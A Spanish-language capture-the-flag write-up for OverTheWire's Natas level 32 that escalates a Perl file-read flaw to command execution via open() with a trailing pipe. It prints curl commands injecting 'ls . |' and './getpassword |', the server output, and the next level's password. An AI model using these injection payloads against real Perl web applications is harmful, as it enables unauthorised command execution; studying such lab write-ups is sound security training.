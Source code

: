 # Natas 32

#### URL: http://natas32.natas.labs.overthewire.org/
#### Credenciales: natas32:NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B

Aunque en el [nivel anterior](https://github.com/Calana2/Writeups_es/blob/main/OverTheWire-Wargames/Natas/natas31.md) explotamos una vulnerabilidad de AFR, no mencionamos que esta era escalable a RCE

La funcion open() abre un descriptor de archivo a una ruta de archivo `a menos que un caracter "|" sea agregado al final de la cadena`. En ese caso open() `ejecutará el archivo`

![2025-03-21-153857_1366x768_scrot](https://github.com/user-attachments/assets/00f08b5f-5569-4959-bc4c-8bb481599e84)

```
curl -u natas32:NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B -F file=ARGV -F file=@file.csv -F submit=Upload "http://natas32.natas.labs.overthewire.org/index.pl?ls%20.%20|"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<!-- Bootstrap -->
<link href="bootstrap-3.3.6-dist/css/bootstrap.min.css" rel="stylesheet">
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas32", "pass": "<censored>" };</script>
<script src="sorttable.js"></script>
</head>
<script src="bootstrap-3.3.6-dist/js/bootstrap.min.js"></script>

<!--
    morla/10111
    shouts to Netanel Rubin
-->

<style>
#content {
    width: 900px;
}
.btn-file {
    position: relative;
    overflow: hidden;
}
.btn-file input[type=file] {
    position: absolute;
    top: 0;
    right: 0;
    min-width: 100%;
    min-height: 100%;
    font-size: 100px;
    text-align: right;
    filter: alpha(opacity=0);
    opacity: 0;
    outline: none;
    background: white;
    cursor: inherit;
    display: block;
}

</style>


<h1>natas32</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>.:
</th></tr><tr><td>bootstrap-3.3.6-dist
</td></tr><tr><td>getpassword
</td></tr><tr><td>index-source.html
</td></tr><tr><td>index.pl
</td></tr><tr><td>jquery-1.12.3.min.js
</td></tr><tr><td>sorttable.js
</td></tr><tr><td>tmp
</td></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Encontramos un archivo 'getpassword', lo ejecutamos y conseguimos las credenciales:
```
curl -u natas32:NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B -F file=ARGV -F file=@file.csv -F submit=Upload "http://natas32.natas.labs.overthewire.org/index.pl?./getpassword%20|"
...
<h1>natas32</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ
</th></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

`natas33:2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ`

PD: The Perl Jam 2 --> https://www.youtube.com/watch?v=BYl3-c2JSL8



